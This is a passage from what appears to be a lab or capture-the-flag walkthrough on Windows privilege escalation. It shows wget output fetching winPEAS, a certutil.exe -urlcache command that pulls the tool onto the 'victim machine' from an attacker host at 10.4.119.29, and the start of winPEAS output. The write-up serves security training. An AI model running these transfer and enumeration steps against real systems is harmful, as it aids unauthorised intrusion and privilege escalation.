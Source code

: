 ```bash
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/8d8b318f-e681-48fc-99e1-d1a6fd40641e?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250225%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250225T131350Z&X-Amz-Expires=300&X-Amz-Signature=c8a6c3bbe5ad5f4595100507694fd7803a4505ca1beefaf628d6e6af6d0bd549&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3DwinPEASany.exe&response-content-type=application%2Foctet-stream [following]
--2025-02-26 00:13:41--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/8d8b318f-e681-48fc-99e1-d1a6fd40641e?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250225%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250225T131350Z&X-Amz-Expires=300&X-Amz-Signature=c8a6c3bbe5ad5f4595100507694fd7803a4505ca1beefaf628d6e6af6d0bd549&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3DwinPEASany.exe&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10143232 (9.7M) [application/octet-stream]
Saving to: ‘winpeas.exe’

winpeas.exe                                                100%[========================================================================================================================================>]   9.67M  3.16MB/s    in 3.1s    

2025-02-26 00:13:45 (3.16 MB/s) - ‘winpeas.exe’ saved [10143232/10143232]
```
{% endraw %}

<br />
Use certutil.exe to transfer the peas to the victim machine.

{% raw %}
```bash
<C:\Users\bill>certutil.exe -urlcache -f http://10.4.119.29/winpeas.exe winpeas.exe
certutil.exe -urlcache -f http://10.4.119.29/winpeas.exe winpeas.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
{% endraw %}

<br />
Run the winpeas.exe.

{% raw %}
```bash
C:\Users\bill>.\winpeas.exe
.\winpeas.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
     
               ((((((((((((((((((((((((((((((((                                                                                                                                                                                             
        (((((((((((((((((((((((((((((((((((((((((((                                                                                                                                                                                         
```